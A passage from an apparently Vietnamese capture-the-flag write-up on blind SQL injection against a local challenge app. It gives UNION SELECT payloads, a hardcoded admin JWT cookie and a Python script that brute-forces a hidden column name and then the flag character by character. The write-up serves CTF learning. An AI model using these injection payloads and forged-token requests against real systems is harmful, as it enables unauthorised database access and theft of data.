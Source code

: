 ```' UNION SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag_table_secret') WHERE name LIKE 'f%```
admin_tok = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.F5LymIXr29umPedMOVxMbYgtktSy96AwF9dKtP9CyYw" 
CHARSET = string.ascii_lowercase + string.digits + "{}/\-_"

def search_order_history(search_text):
    endpoint = "/admin/search_order_history"
    cookies = {"token": admin_tok}
    params = {
        "category": "username",
        "search_text": search_text
    }
    response = requests.get(URL + endpoint, cookies=cookies, params=params)
    return response.text

def is_correct_column(search_text):
    response_text = search_order_history(search_text)
    if "<td>1</td>" in response_text and "<td>Phone</td>" in response_text:
        return True
    return False

def brute_force_flag_column():
    column_name = "f"
    while True:
        found_char = False
        for char in CHARSET:
            test_text = column_name + char + "%"
            if is_correct_column(test_text):
                column_name += char
                found_char = True
                print(f"[+] Found character: {char} | Current column : {column_name}")
                break
        if not found_char:

            break
    return column_name

if __name__ == "__main__":
    flag_table = brute_force_flag_column()
    print(f"[+] Flag column: {flag_table}")
```

==> Ta tìm được 1 column tên ```flag_value``` có thể đây chính là flag mà ta cần tìm!!

-Tạo 1 payload khác để lấy flag: ```' UNION SELECT flag_value FROM flag_table_secret WHERE flag_value LIKE 'HOLACTF{%```   

```python
import requests
import string

admin_tok = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.F5LymIXr29umPedMOVxMbYgtktSy96AwF9dKtP9CyYw"
URL = "http://127.0.0.1:5000"
CHAR_SET = string.digits + string.ascii_letters + "{}-_\/"

def search_order_history(search_text):
    endpoint = "/admin/search_order_history"
    cookies= {"token": admin_tok}
    params={
        "category":"username",
        "search_text":search_text
    }
    response = requests.get(URL + endpoint, params=params, cookies=cookies)
    return response.text
```
